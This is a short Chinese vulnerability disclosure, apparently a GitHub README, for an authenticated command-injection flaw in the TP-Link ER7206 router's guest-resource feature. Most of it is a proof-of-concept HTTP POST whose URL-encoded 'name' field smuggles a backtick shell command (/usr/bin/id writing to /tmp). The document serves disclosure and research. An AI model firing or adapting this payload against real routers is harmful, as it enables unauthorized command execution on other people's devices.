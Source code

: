 ## TP-Link-ER7206存在命令注入漏洞

Tp-Link ER7206 Omada Gigabit VPN Router 1.3.0 build 20230322 Rel.70591 的访客资源功能中存在命令执行漏洞。特制的 HTTP 请求可能导致任意命令执行。攻击者可以发出经过身份验证的 HTTP 请求来触发此漏洞


## poc
```
POST /cgi-bin/luci/;stok=b53d9dc12fe8aa66f4fdc273e6eaa534/admin/freeStrategy?form=strategy_list HTTP/1.1
Host: 192.168.8.100
User-Agent: python-requests/2.31.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Cookie: sysauth=8701fa9dc1908978bc804e7d08931706
Content-Length: 470

data=%7B%22method%22%3A%22add%22%2C%22params%22%3A%7B%22index%22%3A0%2C%22old%22%3A%22add%22%2C%22new%22%3A%7B%22name%22%3A%22DDDDL|`/usr/bin/id>/tmp/had`%22%2C%22strategy_type%22%3A%22five_tuple%22%2C%22src_ipset%22%3A%22%2F%22%2C%22dst_ipset%22%3A%22%2F%22%2C%22mac%22%3A%22%22%2C%22sport%22%3A%22-%22%2C%22dport%22%3A%22-%22%2C%22service_type%22%3A%22TCP%22%2C%22zone%22%3A%22LAN1%22%2C%22comment%22%3A%22%22%2C%22enable%22%3A%22on%22%7D%2C%22key%22%3A%22add%22%7D%7D 
```
